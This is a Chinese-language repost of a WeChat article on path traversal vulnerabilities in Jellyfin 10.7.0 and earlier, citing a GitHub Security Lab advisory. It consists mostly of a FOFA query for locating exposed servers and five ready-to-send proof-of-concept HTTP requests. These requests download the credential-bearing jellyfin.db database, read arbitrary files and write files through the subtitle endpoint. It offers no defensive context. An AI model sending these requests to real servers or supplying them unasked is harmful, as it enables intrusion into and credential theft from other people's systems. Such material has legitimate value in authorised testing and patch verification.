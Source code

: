 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/v4i4FQXFbIdIau3qAXyRXQ)

```
FOFA：title="Jellyfin"
```

**影响版本：**

```
jellyfin<=10.7.0
```

**POC1：从服务器下载带有密码的 jellyfin.db：**

```
GET /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ HTTP/1.1
Host: x.x.x.x
accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Referer: http://x.x.x.x/web/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYWc1pbD6ZgZLNbBLpcQnwuic1eOGtTBPvjyBSKupBLe4TuGjzqFjj8TLB5pXQMvLZdJxwOFUtPqqg/640?wx_fmt=png)

**POC2:**

```
GET /Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db HTTP/1.1
```

**POC3:**

```
GET /Videos/anything/hls/..%5Cdata%5Cjellyfin.db/stream.m3u8/?api_key=4c5750626da14b0a804977b09bf3d8f7 HTTP/1.1
```

**POC4:** 要下载的 PoC c:\temp\filename.jpg： 

```
GET /Images/Ratings/c:%5ctemp/filename HTTP/1.1 
GET /Images/Ratings/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5ctemp/filename HTTP/1.1
```

**POC5：**

```
POST /Videos/d7634eb0064cce760f3f0bf8282c16cd/Subtitles HTTP/1.1
...
X-Emby-Authorization: MediaBrowser DeviceId="...", Version="10.7.0", Token="..."
...

{"language":".\\..\\","format":".\\..\\test.bin","isForced":false,"data":"base64 encoded data"}
```

**原文:**

https://securitylab.github.com/advisories/GHSL-2021-050-jellyfin/